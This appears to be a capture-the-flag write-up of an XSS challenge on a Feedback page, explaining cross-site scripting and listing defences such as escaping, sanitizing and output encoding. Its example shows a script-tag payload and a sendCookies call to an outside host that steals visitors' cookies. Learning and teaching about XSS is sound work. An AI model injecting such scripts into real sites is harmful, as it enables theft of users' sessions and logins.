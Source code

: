 On the Feedback page, we can leave comments and see that comment.  

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them in a page’s HTML.  

To check if this page is vulnerable to XSS attacks, we can inject a payload that causes our browser to execute some Javascript command.
When trying to input a Javascript command like alert(), (or even script), we get the flag.  

It is about XSS (Cross Scripting) attacks, which consists in injecting malicious scripts in the website. 

### Example
```
A page allows you to enter your name, which is output as is on your profile page.
Bob enters his name as `Bob <script>alert('Hello Bob!')</script>`.
Anyone who visits Bob’s profile page gets some HTML including the unescaped script tag, which their browser runs.
If the alert() were changed to something more malicious, like sendCookies('https://something.com/bad-cookie'), Bob may now be collecting the unsuspecting visitor’s login information.
```


An attacker can use XSS to send a malicious script to an end user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script.  
The script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.  
The malicious content sent to the web browser often takes the form of a segment of JavaScript, but may also include HTML, Flash, or any other type of code that the browser may execute.  

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.


To prevent this:  
- Filter input based on what is expected, or what is a valid input  
- Escape user input. Escaping means to convert the key characters in the data that a web page receives to prevent the data from being interpreted in any malicious way. It doesn't allow the special characters to be rendered.
	-> for example, &lt;p&gt is <p>, but will not be interpreted as a <p> tag, it will literally print "<p>"
- Sanitize data. Examine and remove unwanted data, such as HTML tags that are deemed to be unsafe. Keep the safe data and remove any unsafe characters from the data.  

- use response headers, to prevent XSS in HTML responses that aren't supposed to contain any JS or HTML. (Content-Type and X-Content-Type-Options headers)
- ensure that all variable output in a page is encoded before it is returned to the user. When you encode variable output, you substitute HTML markup with alternative representations that are called entities. The browser displays the entities but doesn't run them. When a browser renders the entities, they're converted back to HTML and printed but they aren't run.


![flag](flag.png)  


https://portswigger.net/web-security/cross-site-scripting  
https://benhoyt.com/writings/dont-sanitize-do-escape/